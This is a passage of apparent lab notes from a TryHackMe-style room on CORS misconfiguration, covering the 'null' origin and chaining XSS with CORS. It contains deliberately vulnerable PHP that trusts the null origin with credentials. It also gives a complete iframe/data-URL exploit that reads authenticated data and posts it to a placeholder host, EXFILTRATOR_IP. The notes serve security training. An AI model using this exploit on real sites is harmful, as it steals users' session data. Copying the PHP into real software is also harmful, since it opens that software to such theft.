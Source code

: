 #### Why Null Origin?

Allowing requests from the "null" origin in a web application's CORS policy might seem counterintuitive, but there are specific scenarios where this might occur, either intentionally or due to misconfiguration. For example:

1. Local Files and Development: When developers test web applications locally using `file:///` URLs (e.g., opening an HTML file directly in a browser without a server), the browser typically sets the origin to "null". In such cases, developers might temporarily allow the "null" origin in CORS policies to facilitate testing.
2. Sandboxed Iframes: Web applications using sandboxed iframes (with the `sandbox` attribute) might encounter "null" origins if the iframe's content comes from a different domain. The "null" origin is a security measure in highly restricted environments.
3. Specific Use Cases: Some applications might have particular use cases that need to support interactions from non-web-browser environments or unconventional clients that don't send a standard origin. Allowing the "null" origin might be a workaround, although it's generally not recommended due to security concerns.
#### Exploiting Null Origin

Compared to the previous techniques, exploiting a null origin vulnerability typically involves taking advantage of scenarios where an application incorrectly trusts the "null" origin of the request. This can happen when an application's CORS policy is misconfigured to accept requests from the "null" origin. For example, below is the vulnerable code of [http://corssop.thm/null.php](http://corssop.thm/null.php)

```php
<?php
header('Access-Control-Allow-Origin: null');
header('Access-Control-Allow-Credentials: true');
?>
```


The "null" origin usually occurs when an HTML page is loaded locally using the `file:///` protocol or inside an `iframe`.

![[84dd592fc588146fe095dc5b5c3927c8.png]]
To exploit the vulnerable code above, an attacker can create a malicious webpage with an `iframe` containing a `javascript` code that makes cross-origin requests to the target application.

#### XSS + CORS

We can use the vulnerable application at [http://corssop.thm/xss.php](http://corssop.thm/xss.php) to chain XSS with CORS. The application is designed to accept JavaScript or HTML code and then save it to the database. This means you can inject JavaScript or HTML code into the application, and once the victim visits the application, the payload will be executed.

![Sample XSS payload with a basic alert box](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/7014d79bc18957e4809e6dd67e23fd11.png)  

Below is a sample exploit code designed to exfiltrate the data from `null.php` while using the victim's session. Make sure to change the EXFILTRATOR_IP variable with your IP address.



```html
<div style="margin: 10px 20px 20px; word-wrap: break-word; text-align: center;">
    <iframe id="exploitFrame" style="display:none;"></iframe>
    <textarea id="load" style="width: 1183px; height: 305px;"></textarea>
  </div>

  <script>
    // JavaScript code for the exploit, adapted for inclusion in a data URL
    var exploitCode = `
      <script>
        function exploit() {
          var xhttp = new XMLHttpRequest();
          xhttp.open("GET", "http://corssop.thm/null.php", true);
          xhttp.withCredentials = true;
          xhttp.onreadystatechange = function() {
            if (this.readyState == 4 && this.status == 200) {
              // Assuming you want to exfiltrate data to a controlled server
              var exfiltrate = function(data) {
                var xhr = new XMLHttpRequest();
                xhr.open("POST", "http://EXFILTRATOR_IP/receiver.php", true);
                xhr.withCredentials = true;
                var body = data;
                var aBody = new Uint8Array(body.length);
                for (var i = 0; i < aBody.length; i++)
                  aBody[i] = body.charCodeAt(i);
                xhr.send(new Blob([aBody]));
              };
              exfiltrate(this.responseText);
            }
          };
          xhttp.send();
        }
        exploit();
      <\/script>
    `;

    // Encode the exploit code for use in a data URL
    var encodedExploit = btoa(exploitCode);

    // Set the iframe's src to the data URL containing the exploit
    document.getElementById('exploitFrame').src = 'data:text/html;base64,' + encodedExploit;
  </script>
```